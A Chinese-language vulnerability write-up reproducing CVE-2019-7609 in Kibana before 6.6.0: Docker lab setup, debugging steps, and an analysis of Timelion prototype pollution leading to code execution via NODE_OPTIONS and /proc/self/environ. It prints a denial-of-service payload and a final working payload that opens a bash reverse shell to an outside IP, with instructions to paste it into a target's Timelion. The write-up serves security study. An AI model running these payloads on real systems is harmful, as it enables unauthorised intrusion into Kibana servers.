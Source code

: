 ```yaml
---
title: "（CVE-2019-7609）kibana < 6.6.0 未授权远程代码命令执行"
id: zhfly3005
---
```


# （CVE-2019-7609）Kibana < 6.6.0 未授权远程代码命令执行

## 一、漏洞简介

Kibana 是一款开源的数据分析和可视化平台，它是Elastic Stack成员之一，设计用于和Elasticsearch协作。

## 二、漏洞影响

kibana < 6.6.0

## 三、复现过程

#### 环境搭建

```
docker pull docker.elastic.co/kibana/kibana:6.5.4 
docker network create elastic 
docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana 
```

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：

```
docker ps -a --no-trunc  # 找到启动脚本

在node启动命令后加上–inspect=0.0.0.0:9229 `docker commit kibana kibana-debug  # 保存修改后的镜像

docker rm -f kibana

docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器` 
```

kibana控制台：http://127.0.0.1:5601/ inspect调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：

```
.es(*).props(label.__proto__.cookie="aaa") 
```

![image](../img/9a3a297dbf10f93de4d4c1d15c3befa9.png)

要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![image](../img/44800d6579d52da535c974d4dde2bccc.png)

DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：

```
if(obj.jsCode) eval(obj.jsCode) 这种白给的
express ejs模版引擎中的动态函数调用 
```

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了...）。

![image](../img/5683c9c5820ad96490a5e14f48ffd65c.png)

作者据此得出结论：kibana在创建新进程 创建进程可就是个敏感的行为了，能不能污染命令/参数呢？ 来动态看下进程创建的过程，

![image](../img/d3554995f17a97b92165d80eb8c1b3e7.png)

首先调用normalizeSpawnArguments.apply()处理参数，

![image](../img/3e612bd87bca6bbcfcd1f2a1ebfb2c57.png)

跟进，

![image](../img/05681bac7f3e189036d358c6ab020915.png)

这里实际是在处理child_process.spawn(command[, args][, options])的第三个参数options。

![image](../img/eda6cc86f815f71873150bc1b960ca92.png)

这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。 作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。 回想下控制台报的错："Starting inspector on 0.0.0.0:9229 failed: address already in use"。 这句话透露出的是：此时正在创建一个node命令进程，并且使用了--inpect:0.0.0.0:9229参数。 这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE_OPTIONS变量，

![image](../img/fd15bd5f2823619147a2e89946b310d5.png)

通过这个变量，可以覆盖node进程的参数。 也就是说，现在我们能控制node进程的参数了。这就很有用了，比如--eval参数是可以直接执行代码的。

![image](../img/25e2762ea11200fd5c323941992b5ef1.png)

但是，NODE_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向--eval这种是用不了的。

不过作者找到了另一个参数--require，

![image](../img/20cce70b8077d6b301213cf164a15fa5.png)

这个有点像php里的auto_prepend_file，预加载一个文件。

![image](../img/30933216448a3f0da3ddbdd05205e08e.png)

现在我们可以看成有一个文件包含的洞了，怎么RCE呢？ 通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。 作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![image](../img/5b2be9e43d0629d0d4e019a053f52646.png)

最后payload如下：

> 将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion` 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ') 
```

然后自己机器开启监听，再点击 `Canvas` 即可出发漏洞